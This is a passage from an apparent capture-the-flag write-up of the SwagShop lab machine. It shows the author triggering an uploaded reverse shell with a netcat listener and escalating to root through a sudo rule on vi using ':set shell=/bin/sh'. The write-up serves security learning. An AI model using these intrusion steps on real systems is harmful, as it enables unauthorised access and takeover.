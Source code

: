 <img src="/assets/img/posts/SwagShop/exploit-37811-execution-upload-shell.png">

I then triggered the reverse shell by navigating to that webpage (`http://swagshop.htb/index.php/shell.php`) while also running my listener on my attacking VM (`nc 4444 -lvnp`)

I successfully obtained remote access to low-level user (`www.data`) access and the `user.txt` flag.

<img src="/assets/img/posts/SwagShop/user-flag.png" width="50%" height="50%">

## Privilege Escalation

Priviledge escalation was relatively straightforward. Executing `sudo -l` showed that the `www-data` was able to run `/usr/bin/vi` against anything within the `/var/www/html/*` directory with `NOPASSWD`.

<img src="/assets/img/posts/SwagShop/sudo-l.png" width="70%" height="70%">

I was able to drop into a root shell by runnng `sudo /usr/bin/vi /var/www/html/test.txt`.

Then this while within `vi` to launch a shell as the `root` user.
```
:set shell=/bin/sh
:shell
```
<img src="/assets/img/posts/SwagShop/root-flag.png" width="50%" height="50%">